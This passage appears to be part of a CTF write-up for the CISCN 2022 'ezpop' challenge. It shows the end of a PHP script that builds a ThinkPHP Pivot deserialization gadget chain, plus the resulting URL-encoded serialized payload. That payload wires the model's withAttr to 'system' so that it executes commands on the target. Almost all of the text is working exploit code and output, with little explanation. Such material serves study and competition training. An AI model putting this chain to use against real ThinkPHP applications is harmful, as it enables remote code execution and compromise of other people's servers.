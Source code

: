 ```plain
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace {
    echo (urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}

//O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

来源题目 \[CISCN 2022 初赛\] ezpop
